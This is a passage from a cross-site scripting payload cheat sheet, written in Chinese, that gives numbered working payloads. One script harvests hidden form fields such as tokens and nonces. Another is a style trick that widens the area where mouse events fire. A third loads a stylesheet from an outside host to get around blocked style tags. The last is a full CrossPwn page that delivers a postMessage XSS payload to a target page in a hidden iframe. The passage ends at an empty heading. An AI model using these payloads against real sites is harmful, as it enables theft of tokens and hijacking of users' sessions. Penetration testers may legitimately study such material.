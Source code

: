 ```
以下payload用于证明所有隐藏的HTML值（如目标页面中的标记和nonce）都可以被窃取。

f=document.forms;for(i=0;i<f.length;i++){e=f<i>.elements;for(n in e){if(e[n].type=='hidden')
{alert(e[n].name+': '+e[n].value)}}}
```

##### 98.Improved Likelihood of Mouse Events (提高鼠标事件的可能性)

```
以下payload用于创建要触发鼠标事件的更大区域范围。在任何使用鼠标事件（如onmouseover、onclick等）的XSS payload中添加以下内容（作为属性）。

style=position:fixed;top:0;left:0;font-size:999px
```

##### 99.Alternative to Style Tag (替代css样式标记)

```
以下payload用于当内联和标记名的"style"关键字被阻止时使用 

<link rel=stylesheet href=//HOST/FILE>
<link rel=stylesheet href=data:text/css,CSS>
```

##### 100.Cross-Origin Script - CrossPwn (跨源脚本-CrossPwn)

```
将下面的内容另存为.html文件，并按如下方式使用：

http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(document.domain)
其中"facebook.com"是允许的来源，"localhost"正在攻击域  "//brutelogic.com.br/tests/status.html"是目标页和"<script>alert(document.domain)"是发送的消息（payload）。

code:

<!DOCTYPE html>
<body οnlοad="CrossPwn()">
<h2>CrossPwn</h2>
<p>OnMessage XSS</p>
<p>Use target & msg as URL parameters.</p>
<iframe id="f" height="0" style="visibility:hidden">
</iframe>
<script>
searchParams = new URLSearchParams(document.location.search);
target = searchParams.get('target');
msg = searchParams.get('msg');
document.getElementById('f').setAttribute('src', target);
function CrossPwn() {frames[0].postMessage(msg,'*')}
</script>
</body>
</html>
```

##### 101.Location Based Payloads (基于位置的有效载荷)
